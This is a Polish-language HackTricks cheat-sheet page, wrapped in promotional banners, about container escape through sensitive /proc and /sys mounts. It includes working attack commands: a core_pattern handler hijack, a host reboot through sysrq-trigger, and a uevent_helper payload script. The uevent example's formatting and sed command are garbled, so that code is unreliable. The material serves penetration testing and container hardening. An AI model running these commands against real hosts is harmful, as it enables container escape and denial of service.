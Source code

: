 # Wrażliwe montaże

<details>

<summary><strong>Zacznij od zera i stań się mistrzem hakowania AWS dzięki</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) na GitHubie.

</details>

<figure><img src="../../../..https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

Ujawnienie `/proc` i `/sys` bez odpowiedniej izolacji przestrzeni nazw wprowadza znaczne ryzyko bezpieczeństwa, w tym zwiększenie powierzchni ataku i ujawnienie informacji. Te katalogi zawierają wrażliwe pliki, które w przypadku niewłaściwej konfiguracji lub dostępu przez nieuprawnionego użytkownika mogą prowadzić do ucieczki z kontenera, modyfikacji hosta lub dostarczenia informacji ułatwiających dalsze ataki. Na przykład niewłaściwe zamontowanie `-v /proc:/host/proc` może obejść ochronę AppArmor ze względu na swoją ścieżkową naturę, pozostawiając `/host/proc` bez ochrony.

**Możesz znaleźć dalsze szczegóły dotyczące każdej potencjalnej luki w** [**https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts**](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)**.**

## Zagrożenia związane z procfs

### `/proc/sys`

Ten katalog umożliwia dostęp do modyfikacji zmiennych jądra, zazwyczaj za pomocą `sysctl(2)`, i zawiera kilka podkatalogów wymagających uwagi:

#### **`/proc/sys/kernel/core_pattern`**

* Opisany w [core(5)](https://man7.org/linux/man-pages/man5/core.5.html).
* Umożliwia zdefiniowanie programu do wykonania podczas generowania pliku rdzenia z pierwszymi 128 bajtami jako argumentami. Może to prowadzić do wykonania kodu, jeśli plik zaczyna się od rury `|`.
*   **Przykład testowania i eksploatacji**:

```bash
[ -w /proc/sys/kernel/core_pattern ] && echo Yes # Test dostępu do zapisu
cd /proc/sys/kernel
echo "|$overlay/shell.sh" > core_pattern # Ustawianie niestandardowego obsługującego
sleep 5 && ./crash & # Wywołanie obsługującego
```

#### **`/proc/sys/kernel/modprobe`**

* Szczegółowo opisany w [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
* Zawiera ścieżkę do ładowacza modułów jądra, wywoływanego do ładowania modułów jądra.
*   **Przykład sprawdzania dostępu**:

```bash
ls -l $(cat /proc/sys/kernel/modprobe) # Sprawdzanie dostępu do modprobe
```

#### **`/proc/sys/vm/panic_on_oom`**

* Wzmiankowany w [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
* Globalna flaga kontrolująca, czy jądro wpada w panikę czy wywołuje zabójcę OOM, gdy wystąpi warunek OOM.

#### **`/proc/sys/fs`**

* Zgodnie z [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html), zawiera opcje i informacje o systemie plików.
* Dostęp do zapisu może umożliwić różne ataki typu odmowa usługi przeciwko hostowi.

#### **`/proc/sys/fs/binfmt_misc`**

* Umożliwia rejestrację interpretatorów dla formatów binarnych nie-natywnych na podstawie ich numeru magicznego.
* Może prowadzić do eskalacji uprawnień lub uzyskania dostępu do powłoki root, jeśli `/proc/sys/fs/binfmt_misc/register` jest zapisywalny.
* Związany exploit i wyjaśnienie:
* [Rootkit dla ubogich poprzez binfmt\_misc](https://github.com/toffan/binfmt\_misc)
* Wideo tutorial: [Link do wideo](https://www.youtube.com/watch?v=WBC7hhgMvQQ)

### Inne w `/proc`

#### **`/proc/config.gz`**

* Może ujawnić konfigurację jądra, jeśli `CONFIG_IKCONFIG_PROC` jest włączony.
* Przydatne dla atakujących do identyfikacji podatności w działającym jądrze.

#### **`/proc/sysrq-trigger`**

* Umożliwia wywoływanie poleceń Sysrq, potencjalnie powodując natychmiastowe ponowne uruchomienia systemu lub inne krytyczne działania.
*   **Przykład ponownego uruchamiania hosta**:

```bash
echo b > /proc/sysrq-trigger # Ponowne uruchomienie hosta
```

#### **`/proc/kmsg`**

* Ujawnia komunikaty z bufora pierścieniowego jądra.
* Może pomóc w eksploatacji jądra, wyciekach adresów i dostarczaniu wrażliwych informacji systemowych.

#### **`/proc/kallsyms`**

* Wyświetla eksportowane symbole jądra i ich adresy.
* Istotne dla rozwoju eksploitów jądra, zwłaszcza do pokonywania KASLR.
* Informacje o adresie są ograniczone, gdy `kptr_restrict` jest ustawione na `1` lub `2`.
* Szczegóły w [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/[pid]/mem`**

* Interfejsuje z urządzeniem pamięci jądra `/dev/mem`.
* Historycznie podatny na ataki eskalacji uprawnień.
* Więcej na temat [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/kcore`**

* Reprezentuje pamięć fizyczną systemu w formacie rdzenia ELF.
* Odczytanie może ujawnić zawartość pamięci hosta i innych kontenerów.
* Duży rozmiar pliku może prowadzić do problemów z odczytem lub awarii oprogramowania.
* Szczegółowe użycie w [Dumping /proc/kcore in 2019](https://schlafwandler.github.io/posts/dumping-/proc/kcore/).

#### **`/proc/kmem`**

* Alternatywny interfejs dla `/dev/kmem`, reprezentujący pamięć wirtualną jądra.
* Umożliwia odczyt i zapis, co umożliwia bezpośrednią modyfikację pamięci jądra.

#### **`/proc/mem`**

* Alternatywny interfejs dla `/dev/mem`, reprezentujący pamięć fizyczną.
* Umożliwia odczyt i zapis, a modyfikacja całej pamięci wymaga przekształcenia adresów wirtualnych na fizyczne.

#### **`/proc/sched_debug`**

* Zwraca informacje o harmonogramowaniu procesów, omijając zabezpieczenia przestrzeni nazw PID.
* Ujawnia nazwy procesów, identyfikatory PID i grupy cgroup.

#### **`/proc/[pid]/mountinfo`**

* Udostępnia informacje o punktach montowania w przestrzeni nazw montowania procesu.
* Ujawnia lokalizację `rootfs` kontenera lub obrazu. 

### Zagrożenia związane z `/sys`

#### **`/sys/kernel/uevent_helper`**

* Używany do obsługi `uevent` urządzenia jądra.
* Zapisywanie do `/sys/kernel/uevent_helper` może uruchamiać arbitralne skrypty po wyzwaleniu `uevent`.
*   **Przykład eksploatacji**: %%%bash

### Tworzy ładunek

echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

### Znajduje ścieżkę hosta z montażu OverlayFS dla kontenera

host\_path=$(sed -n 's/._\perdir=(\[^,]_).\*/\1/p' /etc/mtab)

### Ustawia uevent\_helper na złośliwego pomocnika

echo "$host\_path/evil-helper" > /sys/kernel/uevent\_helper

### Wywołuje uevent

echo change > /sys/class/mem/null/uevent

### Odczytuje wynik

cat /output %%%
#### **`/sys/class/thermal`**

* Kontroluje ustawienia temperatury, potencjalnie powodując ataki typu DoS lub fizyczne uszkodzenia.

#### **`/sys/kernel/vmcoreinfo`**

* Ujawnia adresy jądra, potencjalnie kompromitując KASLR.

#### **`/sys/kernel/security`**

* Zawiera interfejs `securityfs`, umożliwiający konfigurację modułów bezpieczeństwa Linuxa, takich jak AppArmor.
* Dostęp może umożliwić kontenerowi wyłączenie jego systemu MAC.

#### **`/sys/firmware/efi/vars` and `/sys/firmware/efi/efivars`**

* Ujawnia interfejsy do interakcji z zmiennymi EFI w NVRAM.
* Niewłaściwa konfiguracja lub eksploatacja może prowadzić do zablokowania laptopów lub niemożliwości uruchomienia hostów.

#### **`/sys/kernel/debug`**

* `debugfs` oferuje interfejs debugowania "bez zasad" do jądra.
* Historia problemów związanych z bezpieczeństwem związana z jego nieograniczonym charakterem.

### References

* [https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
* [Understanding and Hardening Linux Containers](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc\_group\_understanding\_hardening\_linux\_containers-1-1.pdf)
* [Abusing Privileged and Unprivileged Linux Containers](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container\_whitepaper.pdf)

<figure><img src="../../../..https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Kup [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
